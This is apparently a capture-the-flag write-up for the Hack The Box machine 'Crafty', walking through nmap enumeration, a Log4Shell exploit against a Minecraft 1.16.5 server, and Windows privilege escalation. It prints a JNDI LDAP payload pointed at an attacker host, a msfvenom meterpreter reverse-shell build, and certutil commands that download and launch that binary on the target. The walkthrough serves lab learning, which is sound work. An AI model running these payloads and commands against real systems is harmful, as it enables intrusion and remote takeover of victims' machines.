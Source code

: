 # Crafty Write-up

<img src="https://labs.hackthebox.com/storage/avatars/c01c8813bfc7795ae0717bbee7b407d1.png" width="200" height="200">

## Nmap enumeration

`nmap -sC -sV -p- crafty.htb`

    ┌──(root㉿kali)-[/home/kali]
    └─# nmap -sC -sV -p- crafty.htb      
    
    PORT      STATE SERVICE   VERSION
    80/tcp    open  http      Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Crafty - Official Website
    | http-methods: 
    |_  Potentially risky methods: TRACE
    25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

![image](https://github.com/zer00d4y/writeups/assets/128820441/bc60baa0-a1e2-40ef-b3c7-5fbd03a921e9)

## log4j

CVE-2021-44228

Exploit link: https://github.com/kozmer/log4j-shell-poc

    git clone https://github.com/kozmer/log4j-shell-poc

![image](https://github.com/zer00d4y/writeups/assets/128820441/eaa658db-c1b1-4d6c-bc3f-130bf8757f81)

    wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

![image](https://github.com/zer00d4y/writeups/assets/128820441/8ef7aeb1-7ae7-407a-a7cf-73a53fc36fab)

    tar -xf jdk-8u181-linux-x64.tar.gz
    
    mv jdk1.8.0_181 jdk1.8.0_20

![image](https://github.com/zer00d4y/writeups/assets/128820441/c1a55a94-0106-49d4-8b3c-948dcc0d9564)

![image](https://github.com/zer00d4y/writeups/assets/128820441/80440668-29ee-40e6-ae42-8abbdd022779)

pyCraft: https://github.com/ammaraskar/pyCraft

    git clone https://github.com/ammaraskar/pyCraft

![image](https://github.com/zer00d4y/writeups/assets/128820441/d82509f2-a181-4233-a749-21917ee2ef95)

    virtualenv ENV
    
    source ENV/bin/activate
    
    pip install -r requirements.txt

![image](https://github.com/zer00d4y/writeups/assets/128820441/3a437c19-6323-4f4c-8c1c-6654cc8c7f7b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e4e4b870-0723-4171-b244-e53c9fc97e89)

![image](https://github.com/zer00d4y/writeups/assets/128820441/b3bb40ac-5e3d-483c-b001-77886fdd8af7)

![image](https://github.com/zer00d4y/writeups/assets/128820441/63123523-fa92-4b18-8afa-ba62338c33d9)

    ${jndi:ldap://10.10.14.91:1389/a}

![image](https://github.com/zer00d4y/writeups/assets/128820441/ac4e62ec-0683-441b-a931-0bfa086e50d9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e6d112a9-1d3b-4204-96fe-ad714487ee4b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/6d7f63cd-79ed-40bc-bd71-ec1319807b68)

## Privilege escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/ded666e2-5a76-4860-b1da-4b08650e179b)

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
    
    msfconsole

![image](https://github.com/zer00d4y/writeups/assets/128820441/29bfabd4-8070-4df6-9058-4a1e58e1954e)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f2a1b7fd-d4af-443c-81b6-a8f9507cbe30)

    python3 http.server 4245 

![image](https://github.com/zer00d4y/writeups/assets/128820441/77b103fe-8f12-4855-a014-b4454522f80d)

    certutil -urlcache -f http://<tun0 IP>:4245/expl.exe %temp%/expl.exe
    
    start %temp%/expl.exe

![image](https://github.com/zer00d4y/writeups/assets/128820441/49241985-e3fb-4d16-8abc-8d065d0a626e)


